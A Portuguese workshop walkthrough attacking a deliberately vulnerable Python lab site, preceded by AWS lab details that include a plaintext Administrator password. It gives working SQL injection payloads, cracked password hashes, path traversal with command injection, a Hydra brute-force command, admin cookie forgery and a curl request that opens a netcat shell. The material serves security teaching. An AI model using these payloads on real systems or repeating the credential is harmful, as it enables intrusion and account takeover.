 # Infraestrutura

### Windows

- Region: us-east-1
- Instance id: This is the Windows client with tools for the Python_SafeSite Security Workshop
- AMI name: SecLabClient
- Description: This is the Windows client with tools for the Python_SafeSite Security Workshop
- Administrator Password: mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE
- AMI id: ami-01127273b979fe92b

### Linux

- Region: us-east-1
- Instance id: i-0458f66b29d690451
- AMI name: SecLabServer
- Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop
- AMI id: ami-01127273b979fe92b

# Falhas e Ataques

#### Página Inicial: SQL Injection

Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- Original:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- Alteradas:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

    - `X" union select 1, 2 --`
    - `X" union select name, sql from sqlite_master where type='table' --`
    - `X" union select name || ': ' || card, password from secrets --`
    - `X" union select login || ': ' || email, password from logins --`

Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

#### Sobre Nós: Path Traversal, Remote Command Execution

A página Sobre Nós claramente exibe o conteúdo de arquivos texto que estão no servidor. Ao clicar em um deles, a URL fica da seguinte forma:

[http://0.0.0.0:8000/about?doc=termo_de_uso](http://0.0.0.0:8000/about?doc=termo_de_uso)

Vamos explorar esse parâmetro:

- `?doc=x`: Tela em branco
- `?doc=/etc/passwd`: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://0.0.0.0:8000/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://0.0.0.0:8000/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

#### Contato: CSRF + XSS (Firefox)

Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

#### Cadastro: XSS, File Upload

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor.

#### Área Restrita: HTTP Brute Force

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    0.0.0.0 \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Login incorreto!'
```

#### Perfil: HTTP Brute Force

O mesmo que o item anterior.

#### Global: Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!

#### Global: Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

`dirb http://0.0.0.0:8000/`

Achamos um /status oculto.

#### Status: Form Tampering (or Poisoning)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=env'
```

Para subir um shell reverso, caso o servidor tenha Netcat instalado:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```
